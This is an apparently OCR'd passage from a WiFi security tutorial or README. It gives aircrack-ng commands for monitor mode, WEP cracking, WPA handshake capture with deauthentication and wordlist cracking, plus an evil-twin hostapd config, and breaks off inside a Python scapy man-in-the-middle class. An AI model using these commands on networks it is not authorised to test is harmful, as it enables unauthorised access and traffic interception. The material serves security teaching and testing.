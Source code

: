 ```yaml
  - Weak implementation exploitation
  - Quick network compromise
```

### 💻 Attack Demonstration Tools
```bash
# Aircrack-ng suite for wireless security testing
# Monitor mode setup
airmon-ng start wlan0

# Network discovery
airodump-ng wlan0mon

# WEP key cracking
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
aireplay-ng -3 -b 00:11:22:33:44:55 wlan0mon
aircrack-ng capture-01.cap

# WPA/WPA2 handshake capture
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon
aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon
aircrack-ng -w wordlist.txt handshake-01.cap

# Evil twin setup with hostapd
echo "interface=wlan0
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
auth_algs=1
wpa=0" > hostapd.conf

hostapd hostapd.conf
```

</div>

<div>

## 🔍 Attack Vectors and Techniques

### 🎯 Man-in-the-Middle (MITM)
```python
# Simplified WiFi MITM attack simulation
import scapy.all as scapy
from scapy.layers.dot11 import Dot11, Dot11Beacon, Dot11Elt
import threading
import time

class WiFiMITM:
    def __init__(self, interface, target_ssid, fake_ssid):
        self.interface = interface
        self.target_ssid = target_ssid
        self.fake_ssid = fake_ssid
        self.target_bssid = None
        self.clients = []
    
    def scan_networks(self):
        """Scan for target network"""
        def packet_handler(packet):
            if packet.haslayer(Dot11Beacon):
                ssid = packet[Dot11Elt].info.decode()
                if ssid == self.target_ssid:
```